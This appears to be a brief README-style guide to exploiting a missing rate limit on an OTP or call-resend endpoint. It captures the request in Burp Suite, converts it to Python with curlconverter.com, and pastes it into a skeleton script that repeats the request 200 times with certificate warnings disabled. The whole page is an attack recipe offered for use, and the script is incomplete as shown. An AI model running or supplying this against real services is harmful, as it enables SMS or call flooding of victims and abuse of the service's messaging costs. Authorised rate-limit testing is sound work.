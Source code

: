 ### Exploiting Rate Limit Vulnerability Script

#### 1. Capture Packets in Burp Suite:
   - Open Burp Suite.
   - Intercept the request when the OTP/call option is being resent.
   - Copy the request as a cURL command.

#### 2. Convert cURL Command:
   - Visit [curlconverter.com](https://curlconverter.com/).
   - Paste the copied cURL command into the converter.
   - Copy the output generated after pasting the captured data.

#### 3. Create Python Script:
   - Open a text editor.
   - Paste the copied data into the following script:

   ```python
   import requests
   import urllib3
   
   urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
   
   for i in range(200):
       # Paste the copied data here
       if response.status_code == 200:
           print(f"Success: {i}")
       else:
           print('Error')

